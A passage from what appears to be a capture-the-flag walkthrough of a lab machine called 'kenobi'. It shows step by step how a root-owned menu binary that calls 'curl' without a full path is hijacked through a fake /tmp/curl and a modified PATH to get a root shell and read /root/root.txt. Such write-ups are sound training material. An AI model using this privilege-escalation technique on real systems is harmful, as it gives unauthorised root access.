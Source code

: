 And we can see the binary runs system commands  
As this file runs as the root users privileges, we can manipulate our path gain a root shell.

```
kenobi@kenobi:~$ cd /tmp  
kenobi@kenobi:/tmp$ echo /bin/sh > curl  
kenobi@kenobi:/tmp$ chmod 777 curl  
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH  
kenobi@kenobi:/tmp$ /usr/bin/menu\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*  
1\. status check  
2\. kernel version  
3\. ifconfig  
\*\* Enter your choice :1
```

and when you choose 1 as your choice, you would get shell as a root, cat /root/root.txt to find answer for the last question.

Thanks for Reading.
